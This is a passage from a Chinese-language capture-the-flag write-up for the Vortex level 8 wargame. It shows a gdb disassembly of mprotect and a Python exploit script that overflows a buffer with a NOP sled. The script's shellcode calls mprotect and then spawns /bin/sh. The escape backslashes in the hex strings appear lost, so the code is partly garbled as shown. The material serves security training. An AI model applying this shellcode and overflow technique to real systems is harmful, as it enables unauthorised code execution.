 <pre class="brush:plain;toolbar:false;">0xf7ef72b1&nbsp;&lt;mprotect+1&gt;:&nbsp;mov&nbsp;&nbsp;&nbsp;&nbsp;0x10(%esp),%edx
0xf7ef72b5&nbsp;&lt;mprotect+5&gt;:&nbsp;mov&nbsp;&nbsp;&nbsp;&nbsp;0xc(%esp),%ecx
0xf7ef72b9&nbsp;&lt;mprotect+9&gt;:&nbsp;mov&nbsp;&nbsp;&nbsp;&nbsp;0x8(%esp),%ebx
0xf7ef72bd&nbsp;&lt;mprotect+13&gt;:&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;&nbsp;&nbsp;&nbsp;$0x7d,%eax
0xf7ef72c2&nbsp;&lt;mprotect+18&gt;:&nbsp;&nbsp;&nbsp;&nbsp;call&nbsp;&nbsp;&nbsp;*%gs:0x10</pre>

<p style="text-indent: 2em;">
  从而知道了各个参数与寄存器之间的对应关系，于是我们得到的攻击程序如下：
</p>

<pre class="brush:python;toolbar:false;">#!/usr/bin/env&nbsp;python

import&nbsp;subprocess

addr&nbsp;=&nbsp;&#39;x04xdfxffxff&#39;
#&nbsp;x31xc0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;%eax,&nbsp;%eax
#&nbsp;x31xc9&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;%ecx,&nbsp;%ecx
#&nbsp;x31xd2&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;%edx,&nbsp;%edx
#&nbsp;xb2x07&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;$0x7,&nbsp;%dl
#&nbsp;x66xb9x01x10&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;$0x1001,&nbsp;%cx
#&nbsp;x30xc9&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;%cl,&nbsp;%cl
#&nbsp;xbbx01x80x04x08&nbsp;&nbsp;mov&nbsp;$0x8048001,&nbsp;%ebx
#&nbsp;x30xdb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;xor&nbsp;%bl,&nbsp;%bl
#&nbsp;xb0x7d&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;$0x7d,&nbsp;%al
#&nbsp;xcdx80&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;int&nbsp;$0x80&nbsp;&nbsp;&nbsp;call&nbsp;mprotect
#&nbsp;x68...x08&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;shellcode,&nbsp;(0x80485fe)
#&nbsp;xebxfe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;jmp&nbsp;self&nbsp;死循环
code&nbsp;=&nbsp;&#39;x31xc0x31xc9x31xd2xb2x07x66xb9x01x10x30xc9xbbx01x80x04x08x30xdbxb0x7dxcdx80&#39;&#39;x68x6ax0bx58x99x8fx05xfex85x04x08x68x31xc9x52x68x8fx05x02x86x04x08x68x2fx2fx73x68x8fx05x06x86x04x08x68x68x2fx62x69x8fx05x0ax86x04x08x68x6ex89xe3xcdx8fx05x0ex86x04x08xb0x80xa2x12x86x04x08&#39;&#39;xebxfe&#39;
shellcode&nbsp;=&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"
subprocess.Popen([&#39;/vortex/vortex8&#39;,&nbsp;&#39;x90&#39;&nbsp;*&nbsp;1036&nbsp;+&nbsp;addr],&nbsp;env&nbsp;=&nbsp;{&#39;&#39;&nbsp;:&nbsp;&#39;x90&#39;&nbsp;*&nbsp;500&nbsp;+&nbsp;code}).communicate()</pre>

<p style="text-indent: 2em;">
  我们需要注意的是，code中要避免出现x00导致字符串中断（call *%gs:0x<a></a>10中含有x00，而int $0x<a></a>80中没有），当然，在这题里面，由于code不需要strcpy复制，故而我们也有办法处理x00的情况，但毕竟不如直接避免x00来的方便。
</p>

<p style="text-indent: 2em;">
  至此，我们就结束了这一关的征程，也从这一关中收获了许多。
</p>
